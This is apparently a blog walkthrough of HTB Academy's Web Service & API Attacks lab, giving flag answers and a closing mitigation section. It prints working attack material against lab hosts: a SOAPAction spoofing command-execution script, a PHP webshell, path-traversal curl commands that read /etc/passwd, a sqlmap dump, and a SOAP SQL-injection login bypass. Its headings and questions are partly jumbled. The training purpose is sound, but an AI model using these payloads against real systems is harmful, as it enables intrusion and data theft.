Welcome to **Part 39** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Web Service & API Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of SOAP web services, REST APIs, WSDL enumeration, XML signature wrapping, XXE injection in web services, command injection, and API authorization flaws, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-38-web-fuzzing/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 38: Web Fuzzing Methodologies & Wfuzz</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 39 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-40-wifi-penetration-testing-basics/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 40: Wi-Fi Penetration Testing Basics & 802.11 Analysis</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Web Service & API Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/161](https://academy.hackthebox.com/module/161) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 39 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **WSDL Discovery & Analysis**: Discovers and parses Web Services Description Language (WSDL) files to map all exposed operations and parameters.
* **SOAP Message Manipulation**: Crafts and tampers with XML-based SOAP envelopes to bypass business logic and authentication controls.
* **XML Injection & XXE**: Injects malicious entity definitions into XML payloads to achieve file disclosure and internal SSRF.
* **API Command & SQL Injection**: Tests REST and SOAP endpoints for underlying command and database injection vulnerabilities.
* **Modern Defensive Controls**: Deploys API gateways, schema validators, and disallows external DTD processing across web services.

## Executive Summary & Assessment Scope

Web services and enterprise APIs facilitate machine-to-machine communication using standardized XML (SOAP) or JSON (REST) protocols. When these services fail to validate XML schemas or implement robust authorization, they become susceptible to severe injection and data disclosure attacks.

In this module, we conduct an exhaustive study of web service and API attacks. We parse WSDL files, manipulate SOAP envelopes, exploit XML External Entity flaws, execute arbitrary commands, and extract all module flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Web Service & API Attacks

> **Lab Question (Page 1)**: If you should think of the operation object in WSDL as a programming concept, which of the following is closer in terms of the provided functionality? Answer options (without quotation marks): "Data Structure", "Method", "Class"
>
> **Flag / Answer**: `Method`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'WSDL stands for Web Service Description Language. WSDL is an XML-based
file exposed by web services that informs clients of the provided services/methods, including
where they reside and the method-calling convention.'
GPT explanation:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### SOAPAction Spoofing

> **Lab Question (Page 2)**: Exploit the SOAPAction spoofing vulnerability and submit the architecture of the web server as your answer . Answer options (without quotation marks): "x86_64", "x86"
>
> **Flag / Answer**: `x86_64`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the following python script:
import requests

payload = '<?xml version="1.0" encoding="utf-
8"?><soap:Envelope
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:tns="http://tempuri.org/"
xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soa
p:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>uname
-m</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET-IP>:3002/wsdl",
data=payload,
headers={"SOAPAction":'"ExecuteCommand"'}).content)
saved in the pwnbox as script.py:

The marked part is the command being run – 'uname -m' – the command being
```bash
use to determine the machine's architecture:
```

We can see the architecture in the 'result' tag.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### Information Disclosure (with a twist of SQLi)

> **Lab Question (Page 3)**: Exploit the command injection vulnerability of the target to execute an "id" command. Submit the privileges under which the server is running as your answer. Answer options (without quotation marks): "user", "www-data", "root"
>
> **Flag / Answer**: `root`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command:
```bash
curl http://<target-IP>:3003/ping-server.php/system/ls
```


Question: To execute commands featuring arguments via http://<TARGET
IP>:3003/ping-server.php/system/{cmd} you may have to use ______. Answer
options (without quotation marks): "Encryption", "Hashing", "URL Encoding"
Answer: URL Encoding
Method: as the command injection is done on a web service, URL encoding
might be necessary.

API Attacks
Information Disclosure (with a twist of SQLi):
Question: What is the username of the third user (id=3)?
Answer: WebServices
Method: we run the command:
```bash
curl http://<target-IP>:3003/?id=3
```


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


> **Lab Question (Page 4)**: Identify the username of the user that has a position of 736373 through SQLi. Submit it as your answer.
>
> **Flag / Answer**: `HTB{THE_FL4G_FOR_SQLI_IS_H3RE}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use sqlmap:
```bash
sqlmap http://<target-IP>:3003/?id=1 --batch –dump -v 0
```
('-batch' is to automatically answer prompts with default answers, '-dump' is to
dump the databases, '-v 0' is to suppress noise in the output)

*
*


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### Arbitrary File Upload

> **Lab Question (Page 5)**: Achieve remote code execution and submit the server's hostname as your answer.
>
> **Flag / Answer**: `nix01-websvc`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we now to go port 3001 of the target machine:
http://<target-IP>:3001/


We will upload the webshell
<?php if(isset($_REQUEST['cmd'])){ $cmd =
($_REQUEST['cmd']); system($cmd); die; }?>


Using anyonmous upload.

Upon upload – we are directed to this page:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### to obtain the server's hostname

> **Lab Question (Page 6)**: Through the LFI vulnerability identify an existing user on the server whose name starts with "ub". Answer format: ub****
>
> **Flag / Answer**: `ubuntu`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we now check port 3000 of the target mahcine:
```bash
curl http://<target-IP>:3000/api
```


It's up.

Lets run API endpoint brute force using the wordlist 'common-api-endpoints-
mazen160.txt' – downloaded manually to the pwnbox, and the tool ffuf:
```bash
ffuf -w "common-api-endpoints-mazen160.txt" -u
```
'http://<target-IP>:3000/api/FUZZ' -s


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


### Inspecting it with 'curl'

There is the API endpoint /api/download.

Inspecting it with 'curl':
```bash
curl http://<target-IP>:3000/api/download
```


We need a file name.

We will use LFI to get the content of the users, from '/etc/passwd', and filtering
for 'ub':
curl
http://10.129.152.166:3000/api/download/..%2f..%2f..%2f..%2f
etc%2fpasswd | grep ub


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


### Cross-Site Scripting (XSS)

> **Lab Question (Page 8)**: If we URL-encoded our payload twice, would it still work? Answer format: Yes, No
>
> **Flag / Answer**: `No`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will use burpsuite encoder to URL encode the already once-
encoded payload:


Now let's test it:

No alert were prompted.

Server-Side Request Forgery (SSRF):
Question: Can you leverage the SSRF vulnerability to identify port 3002
listening locally on the web server? Answer format: Yes, No
Answer: Yes
Method: SSRF allows the attacker to forge requests in behalf of the server,
including a command to check localhost running services in the server .


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### Capstone: Skills Assessment

> **Lab Question (Page 9)**: There are more than one payload lengths to exploit/trigger the ReDoS vulnerability. Answer format: Yes, No
>
> **Flag / Answer**: `Yes`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

XML External Entity (XXE) Injection:
Question: What URI scheme should you specify inside an entity to retrieve the
content of an internal file? Answer options (without quotation marks): "http",
"https", "data", "file"
Answer: file
Method: 'We have called our external entity somename, and it will use the SYSTEM
keyword, which must have the value of a URL, or we can try using a URI scheme/protocol
such as file:// to call internal files.'

Web Service & API Attacks - Skills Assessment:
Question: Submit the password of the user that has a username of "admin".
Answer format: FLAG{string}. Please note that the service will respond
successfully only after submitting the proper SQLi payload, otherwise it will
hang or throw an error .
Answer: FLAG{1337_SQL_INJECTION_IS_FUN_:)}
Method: we will start by entering:
http://<target-IP>:3001


### Lets intercept the login request with burpsuite

We get a login form.

Lets intercept the login request with burpsuite:

We can observe that the parameters are sent via XML.

The parameters can be susceptible to SQL injection, however we will not
trigger it regularly, but using SOAP (Simple Object Access Protocol)

we send SOAP (Simple Object Access Protocol) to the server WSDL page:
http://<target-IP>:3002/wsdl


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### first – some explanation about the SOAP and WSDL

first – some explanation about the SOAP and WSDL:


The WSDL can be found in
http://10.129.202.133:3002/wsdl?wsdl


*
*


The entire page will not be displayed due to length, but the relevant part is
marked – the parameters: username and password.


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### →  'Subverting Query Logic' section (page 7). *

Now – we will develop the SOAP request to the WSDL page, in the 'user'
parameter – we will make sure to include SQL injection of the format:
admin' or '1'='1
* more of SQL injection was covered in 'SQL Injection Fundamentals' module
→  'Subverting Query Logic' section (page 7). *:
import requests

# Crafting the SOAP payload with SQL injection in the
username parameter
payload = '''<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-
instance"
xmlns:tns="http://tempuri.org/"

xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<LoginRequest xmlns="http://tempuri.org/">
<username>admin' or '1'='1</username>
<password>admin</password>
</LoginRequest>
</soap:Body>
</soap:Envelope>'''

# Sending the SOAP request to the target
response = requests.post(
"http://<target-IP>:3002/wsdl",  # SOAP endpoint
data=payload,
headers={
"SOAPAction": '"Login"',  # Specifying the Login
SOAP action
"Content-Type": "text/xml; charset=utf-8"
}
)

# Printing the server's response
print(response.content)
*make sure to replace <target-IP> in the script to the target IP *


### We will save the script as 'SOAP .py'

We will save the script as 'SOAP .py':

*in red – the SQL Injection payload. in cyan – the target server IP*.

Lets run it:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1059` |
| **Common Weakness Enumerations** | `CWE-611, CWE-918, CWE-89` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Targeting SOAP XML and REST endpoints with injection and deserialization |
